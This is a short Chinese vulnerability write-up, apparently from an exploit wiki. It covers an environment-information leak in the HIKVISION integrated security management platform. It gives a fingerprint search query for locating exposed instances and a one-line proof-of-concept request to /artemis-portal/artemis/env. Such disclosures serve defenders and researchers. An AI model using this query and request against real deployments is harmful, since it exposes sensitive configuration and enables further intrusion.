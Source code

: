 # HiKVISION 综合安防管理平台 env 信息泄漏漏洞

## 漏洞描述

HIKVISION 综合安防管理平台存在信息泄漏漏洞，攻击者通过漏洞可以获取环境env等敏感消息进一步攻击

## 漏洞影响

<a-checkbox checked>HIKVISION 综合安防管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="HIKVISION-综合安防管理平台"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1647517887798-06e24b68-d89a-4223-aee3-50ca22081807-1646007.png)

验证POC

```javascript
/artemis-portal/artemis/env 
```

![img](/assets/PeiQi-Wiki/img/1679555425852-b9369d03-d3e3-42dc-af4c-f4140ccfbba6.png)
